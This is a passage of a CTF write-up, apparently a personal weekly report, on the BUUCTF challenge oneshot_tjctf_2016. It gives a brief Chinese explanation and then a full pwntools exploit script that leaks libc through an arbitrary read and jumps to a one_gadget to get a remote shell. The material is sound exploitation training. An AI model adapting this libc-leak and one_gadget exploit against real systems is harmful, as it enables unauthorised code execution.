 ```python

shell()
```

## 7.BUUCTF-oneshot_tjctf_2016
任意地址泄漏 之后会将v4的值当作一个地址返回

<img width="387" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/15176deb-32dd-47a0-a543-7a998c61d1c7">

1.泄漏libc 2.将v4覆盖为one_gadget

### exp_oneshot_tjctf_2016.py
```python
from pwn import *
# p = process("./oneshot_tjctf_2016")
p = remote("node4.buuoj.cn",27026)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("/mnt/hgfs/ubuntu/BUUCTF/source/ubuntu16/libc-2.23-64.so")


r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

puts_got = 6294232

# 1.leak libc
ru("Read location?\n")
sl(str(puts_got))

ru("Value: ")

libc_puts = int(rx(18), 16)
success("libc_puts ==> {}".format(hex(libc_puts)))

libc_base = libc_puts - libc.symbols['puts']
success("libc_base ==> {}".format(hex(libc_base)))

# ones = [0x45226, 0x4527a, 0xf03a4, 0xf1247]
ones = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

one_gadget = libc_base + ones[0]

# 2.one_gadget
ru("Jump location?\n")

sl(str(one_gadget))


shell()
```

